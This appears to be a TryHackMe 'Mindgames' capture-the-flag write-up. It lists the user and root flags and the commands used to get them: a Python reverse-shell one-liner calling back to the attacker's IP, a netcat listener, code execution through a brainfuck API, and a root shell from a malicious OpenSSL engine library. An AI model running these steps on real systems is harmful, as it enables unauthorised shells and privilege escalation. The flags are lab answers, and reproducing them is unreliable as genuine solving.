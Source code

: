 # <div align="center">[Mindgames](https://tryhackme.com/r/room/mindgames)</div>
<div align="center">Just a terrible idea...</div> <br>
<div align="center">
<img src="https://github.com/user-attachments/assets/0d678302-ea56-43cf-af22-0a868e76a63e" height="200"></img>
</div>

## Task 1. Capture the flags
No hints. Hack it. Don't give up if you get stuck, enumerate harder

## User flag.
```
thm{411f7d38247ff441ce4e134b459b6268}
```
* ```nmap -sSCV <IP>```
* ```curl -s http://<IP>```
* ```import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("my_own_IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);```
* ```nc -nlvp 4444```
* ```curl -d "+++++ +++++ [REDACTED] ++ ++<]> ++.<" -X POST http://<IP>/api/bf```
* ```cat /home/user.txt```
## ```+ 50``` Root flag.```
```
thm{1974a617cc84c5b51411c283544ee254}
```
* ```cat server.service```
* ```gcc -fPIC -o rootshell.o -c rootshell.c```
* ```gcc -shared -o rootshell.so -lcrypto rootshell.o```
* ```chmod +x rootshell.so```
* ```openssl req -engine ./rootshell.so```
* ```cat /root/root.txt```
